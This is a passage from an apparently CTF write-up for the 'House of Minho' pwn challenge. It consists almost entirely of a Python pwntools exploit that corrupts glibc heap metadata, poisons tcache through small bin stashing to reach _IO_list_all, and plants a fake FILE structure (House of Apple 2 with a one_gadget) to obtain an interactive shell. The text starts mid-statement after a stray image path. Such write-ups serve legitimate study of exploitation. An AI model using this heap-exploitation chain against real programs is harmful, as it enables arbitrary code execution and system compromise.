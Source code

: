 ```python
           p64(0) + p64(0x21) + p64(libcBase + arena + 0x60)*2 + # shrink chunk size from 0xcf1 to 0x21
           p64(0x20) + p64(0x10) + p64(0) + p64(0x11))           # 2 lookout chunks to make forced chunk legal
    malloc0x1000() # trigger malloc_consolidate()

    # Step 4, force a small bin chain to control tcache
    heap = heapBase + 0x310
    free()
    malloc(True, b'0'*0x50 + 
           p64(0) + p64(0x21) + p64(heap) + p64(heap + 0x20) +
           p64(0) + p64(0x21) + p64(heap) + p64(heap + 0x40) + 
           p64(0) + p64(0x21) + p64(heap + 0x20) + p64(libcBase + arena + 112) + # main_arena + 112 is the "bin" to end 
           p64(0x20) + p64(0x10) + p64(0) + p64(0x11))                           # small bin stashing for chunks with this size
    free()
    malloc(False, b'\n') # trigger small bin stash to tcache
    free()          # before: tcache entry -> heap -> heap + 0x20 -> heap + 0x40

    # Step 5, overwrite the fd of first chunk and put it on tcache entries
    malloc(True, b'0'*0x50 + p64(0) + p64(0x21) + p64(PROTECT_PTR(heap, ioListAll)))
    malloc0x10()    # later : tcache entry -> _IO_list_all -> ???

    # force House of Apple 2
    file = flat({                           # heap - 0x50 to align with the beginning of the large chunk
        0x0: b'  sh;',                      # flag NOTE will be overwritten when free
        0x28: 1,                            # _IO_write_ptr
        0x68: libcBase + 0xebcf1,           # NOTE so we can only use one_gadget (2.39 not available)
        0xa0: heap - 0x50,                  # _wide_data
        0xd8: wjumps,                       # vtable
        0xe0: heap - 0x50                   # wide data vtable
        }, filler=b'\0')

    # Step 6, write fake file and then write _IO_list_all
    dbg()
    free()
    malloc(True, file) # write the whole structure
    free() # but flag is overwritten when free
    malloc(False, p64(heap - 0x50)) # write fake file on _IO_list_all
    eout() # exit to trigger House of Apple 2

    sh.clean()
    sh.interactive()
```

## 参考文献

[Black Hat 2023 0解Pwn题Houseofminho详细WP](https://bbs.kanxue.com/thread-279588.htm)
